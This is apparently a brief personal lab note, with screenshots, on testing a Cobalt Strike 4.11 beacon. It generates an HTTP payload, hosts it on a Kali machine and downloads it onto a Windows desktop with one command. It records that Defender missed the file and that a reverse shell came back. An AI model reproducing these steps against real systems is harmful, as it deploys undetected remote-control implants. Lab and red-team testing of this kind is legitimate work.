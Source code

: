 making sure `http` listener is up and running
![[Pasted image 20250331163642.png]]
generating `http` payload
![[Pasted image 20250331163754.png]]
placing in `/home/kali/malware/beacon_x64.exe`
![[Pasted image 20250331164226.png]]
hosting file at `http://192.168.127.129:80/b`
![[Pasted image 20250331164318.png]]
actually put at `/b`
![[Pasted image 20250331164403.png]]
placing on the `desktop` to see if it bypasses `AV`
```bash
wget http://192.168.127.129:80/b -UseBasicP -OutFile "C:\Users\blaster\Desktop\artkittest.exe" 
```
defender on not detected
![[Pasted image 20250331171253.png]]
successfully caught a reverse shell
![[Pasted image 20250331171740.png]]proof it is `4.11` version of `CobaltStrike`
![[Pasted image 20250331171815.png]]
